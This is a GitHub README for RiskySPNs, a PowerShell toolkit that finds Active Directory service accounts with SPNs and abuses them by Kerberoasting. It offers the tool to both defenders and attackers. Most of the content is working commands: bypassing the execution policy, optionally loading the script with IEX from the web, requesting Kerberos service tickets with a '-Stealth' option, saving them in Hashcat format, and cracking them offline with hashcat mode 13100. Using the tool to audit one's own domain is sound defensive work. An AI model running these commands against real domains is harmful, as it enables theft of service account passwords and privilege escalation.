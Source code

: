 # RiskySPNs
RiskySPNs is a collection of PowerShell tools focused on detecting and abusing accounts associated with SPNs (Service Principal Name). This module can assist blue teams to identify potentially risky SPNs as well as red teams to escalate privileges by leveraging Kerberos and Active Directory.

## Usage
##### Install the module
```powershell
Import-Module .\RiskySPNs.psm1
```
Or just load the script (you can also `IEX` from web):
```powershell
. .\Get-PotentiallyCrackableAccounts.ps1
```
Make sure `Set-ExecutionPolicy` is `Unrestricted` or `Bypass`
##### Get information about a function
```powershell
Get-Help Get-TGSCipher -Full
```
All fucntions also have `-Verbose` mode

#### Search vulnerable SPNs
**Find vulnerable accounts:**
```powershell
Get-PotentiallyCrackableAccounts
```
Sensitive + RC4 = $$$

**Generate full deatiled report about vulnerable accounts (CISO <3)**
```powershell
Report-PotentiallyCrackableAccounts
```
#### Get tickets
**Request Kerberos TGS for SPN**
```powershell
Get-TGSCipher -SPN "MSSQLSvc/prodDB.company.com:1433"
```

Or:
```powershell
Get-PotentiallyCrackableAccounts -GetSPNs | Get-TGSCipher
```
#### The fun stuff :)

```powershell
Get-PotentiallyCrackableAccounts -Sensitive -Stealth -GetSPNs | Get-TGSCipher -DoNotQuery -ConvertTo "Hashcat" -SaveTo c:\crack.txt" 
oclHashcat64.exe -m 13100 crack.txt -a 3
```



